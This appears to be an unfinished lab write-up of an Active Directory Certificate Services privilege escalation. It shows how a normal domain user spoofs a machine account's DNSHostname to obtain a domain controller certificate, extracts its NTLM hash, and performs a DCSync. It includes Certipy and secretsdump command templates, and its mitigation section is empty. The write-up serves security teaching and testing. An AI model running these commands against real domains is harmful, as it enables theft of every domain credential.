# Outline
- The Attack In Brief
- Tools Needed
- Lab Setup And Conditions
- Attack Demonstration
- Technical Breakdown
- Mitigation
- References and Credits

---

# The Attack In Brief
1. By default, A regular AD user can add up to 10 computers to the domain.
2. After a user adds a computer to the domain, he gains the right to change its `DNSHostname` property.
3. By changing this property to be a domain controller's `DNSHostname`, he can request a certificate for it from ADCS.
4. Using the domain controller's certificate, we can obtain its NTLM hash.
5. And with that, we can request a complete copy of the domain hashes a.k.a perform a **DCSync** attack.

---

# Tools Needed
1. Certipy (https://github.com/ly4k/Certipy)
2. Impacket (https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]


## 2. Kali [192.168.145.128]


## 3. Normal User Account (No Special Privileges)


---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed `DNSHostname`
Command: `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`





## 2. Requesting A Domain Controller's Certificate
we must first know the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating:



Command: `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`
Password = same password generated from the computer creation in the previous step



## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
Command: `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`



## 4. Performing `DCsync` As The Impersonated Domain Controller
Command: `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`



---

# Technical Breakdown: The conversation
\+ User: Yo AD! I heard that I could join 10 computers to the domain. Is this for real?

\- AD: Thats right! knock yourself out!

\+ User: Yo ADCS, I heard I can request a certificate from you. is that true?

\~ ADCS: Sure is! what do you need this certificate for, user or computer?

\+ User: I have my own certificate. Thanks. Can I get that for the computer I just joined to the domain?

\~ ADCS: You bet! all domain computers can get their certificate!

\+ User: Oh that's great! Alright, i'll need one for my computer here. But can I make his `DNShostname` like this? \*puts domain controller fully-qualified domain name\*

\~ ADCS: \*inspects the certificate request closely and looks confused\* Well um... this is weird. But you totally have the permission to do that. \*Hands him a certificate with the domain controllers `DNSHostname` one it\*

\+ User: Thank you ADCS!

\+ User: AD! \*Points to the newly joined computer\*. There's another domain controller here that wants to get a copy of all the passwords. Would that be OK?

\- AD: Of course! There you are! \*Sends him a copy of all the domain hashes\*

\+ User: Oh you're so generous AD <3

## About Certificate Templates: Who's allowed to enroll? what can they do with a certificate?
Here's the process:
1. First, a client (can be a User or Computer) generates a public/private key pair.
2. Client sends a Certificate Signing Request (CSR) to an Enteprise CA Server.
3. A user client will need to access the User Certificate Template. Same goes for a computer client. So both templates must exist.
4. By default, both the user and computer certificate templates allow client authentication.
4. Templates have permissions too. If the template allows the client to request a certificate, he should be good to go and the CA will sign his certificate with its own private key.
5. The client would then store this certificate in its Certificate Store and use it to perform actions allowed by the certificate (including authentication).
6. Because of the PKINIT kerberos extension, the issues certificates can be used for authentication.

## Puzzle Piece #1: The Default Privileges Of A Normal AD User
In Active Directory, any member of the `Authenticated Users` group is allowed to add up to 10 computers to the domain.

We can verify that by going to `MMC -> ADSI EDIT > DEFAULT NAMING CONTEXT > DOMAIN PROPERTIES`



## Puzzle Piece #2: The Permissions an AD User Has on The Computer He Joins to the domain
When a user adds a computer to the domain, he gains a few permissions on it:



## Puzzle Piece #3: the permissions for the computer certificate template
The computer certificate is accessible to any computer in the Domain Computers Group:



4. requesting certs
5. grabbing the NTLM hash

# mitigation

# references and credits